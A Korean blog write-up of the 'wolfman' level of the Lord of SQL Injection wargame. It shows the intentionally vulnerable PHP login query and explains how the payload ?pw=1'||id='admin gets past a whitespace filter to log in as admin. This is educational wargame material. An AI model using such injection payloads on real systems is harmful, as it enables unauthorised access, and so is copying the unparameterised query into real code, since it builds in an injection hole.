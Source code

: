 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - wolfman 문제풀이"
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


드디어 첫 줄의 마지막 문제인 `wolfman` 문제이다.  

이번에는 `Blind SQL Injection`이 아니다.  

<!--more-->

코드는 다음과 같다.  

```php
------------------------------------------------------------------------------------
query : select id from prob_wolfman where id='guest' and pw=''
------------------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
```

첨엔 이 전에 나왔던 문제랑 뭐가 다른건가 했는데 이제보니 `공백`에 대한 필터링이 추가되어 있다.  

당연한 얘기지만 이 경우 이 전 문제들을 풀었던 것 처럼 `1' or id='admin`을 사용할 수 없다.  

그래서 이번에는 `or`이라는 문자열 대신에 `||`을 사용했다.  

`or`을 사용 할 경우에는 `or id='admin` 처럼 무조건 공백이 들어가야 하지만, `||`는 공백 없이 `||id='admin`을 해도 잘 동작하기 때문이다.  

문제를 풀기 위해 아래와 같이 입력 해 보았다.  

```
?pw=1'||id='admin
```

역시 문제를 풀 수 있었다.  

```php
----------------------------------------------------------------------------------------------------
query : select id from prob_wolfman where id='guest' and pw='1'||id='admin'
----------------------------------------------------------------------------------------------------

Hello admin
WOLFMAN Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
```

`WOLFMAN Clear!!`
